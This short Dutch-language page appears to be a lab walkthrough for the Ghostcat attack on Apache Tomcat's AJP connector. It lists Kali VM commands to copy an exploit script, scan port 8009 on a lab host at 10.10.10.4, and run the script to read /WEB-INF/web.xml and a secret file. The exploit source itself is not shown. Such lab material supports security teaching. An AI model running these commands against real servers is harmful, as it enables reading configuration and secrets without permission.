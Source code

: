 # 4) Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- open terminal in kali vm
- voer volgende commando's uit:
- 4.1) sudo cp /media/sf_kali/exploit_ghostcat.py ~/Desktop/
- 4.2) cd Desktop
- 4.3) sudo chmod +x exploit_ghostcat.py
- 4.4) nmap 10.10.10.4 -p 8009
- 4.5) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.6) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read

